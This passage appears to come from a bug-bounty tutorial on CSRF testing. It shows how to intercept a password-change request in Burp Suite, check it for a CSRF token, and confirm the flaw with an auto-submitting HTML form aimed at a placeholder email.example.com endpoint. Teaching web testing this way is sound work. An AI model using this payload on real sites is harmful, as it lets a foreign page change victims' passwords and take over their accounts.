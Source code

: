 ### Step 2: Look for a Lack of CSRF Protections

Now visit these endpoints to test them for CSRFs. By Intercepting all the requests and check if there is csrf token or any validating methods.

while you’re actively hunting for CSRFs. Keep clicking the Forward button until you encounter the request associated with the state-changing action.

**For example**, let’s say you’re testing whether the password-change function you discovered is vulnerable to CSRFs. You’ve intercepted the request in your Burp proxy:

```jsx
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE
(POST request body)
new_password=abc123
```

Search for any **csrf token** in burpsuite if you found it we will try to talk in bypass techniques for it later

---

### Step 3: Confirm the Vulnerability

After founding the vulnerability we are able now to make PoC:

```jsx
<html>
 <form method="POST" action="https://email.example.com/password_change" id="csrf-form"> 1 //First we generate a POST request to the vulnerable endpoint
 <input type="text" name="new_password" value="abc123"> 2 // the value that we want to change
 <input type="submit" value="Submit"> 3 //specifies a Submit button
 </form>
 <script>document.getElementById("csrf-form").submit();</script> 4 //JavaScript code that submits the form 
automatically
</html>
```

After opening this in our browser this will be the request:

```jsx
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE
(POST request body)
new_password=abc123
```

> **The goal is to prove that a foreign site can carry out state-changing actions on a user’s behalf.**
> 

---
